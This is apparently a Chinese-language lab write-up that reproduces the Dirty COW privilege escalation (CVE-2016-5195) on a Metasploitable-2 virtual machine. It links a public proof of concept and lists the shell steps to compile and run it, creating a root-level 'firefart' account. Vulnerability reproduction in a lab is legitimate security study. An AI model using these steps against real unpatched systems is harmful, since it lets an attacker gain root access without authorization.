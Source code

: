 # cve-2016-5195 dirty cow漏洞复现

## 1.漏洞描述

**漏洞编号**：CVE-2016-5195

**漏洞名称**：Dirty COW

**漏洞危害**：低权限用户利用该漏洞技术可以在全版本Linux系统上实现本地提权

**影响范围**：Linux内核>=2.6.22（2007年发行）开始就受影响了，直到2016年10月18日才修复。

​         360 Vulpecker Team：Android 7.0最新的10月补丁安全级别的系统上测试过漏洞POC，确认Android受影响

## 2.实验环境

Metasploitable-2Linux下载地址：https://sourceforge.net/projects/metasploitable/

虚拟机用户名：msfadmin	密码：msfadmin

poc地址：https://github.com/FireFart/dirtycow

## 3.漏洞复现

### 3.1 将poc上传到虚拟机上

![image-20211125164613599](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211125164613599.png)

### 3.2 查看系统信息

显示当前用户信息

```bash
id
```

使用`uname -a`命令查看linux内核信息，发现在脏牛漏洞范围内，可以进行测试。

```bash
uname -a
```

![image-20211125164647825](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211125164647825.png)

### 3.3 进行提权

对dirty.c进行编译，生成一个dirty的可执行文件

```bash
cd dirtycow
gcc -pthread dirty.c -o dirty -lcrypt
```

![image-20211125164709962](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211125164709962.png)

执行`./dirty 111111("111111"是密码)命令，即可进行提权

```bash
./dirty 111111
```

![image-20211125165058249](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211125165058249.png)

使用新密码登录firefart

```bash
su firefart
输入密码：111111
id
```

![image-20211125165423312](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211125165423312.png)

成功提权。























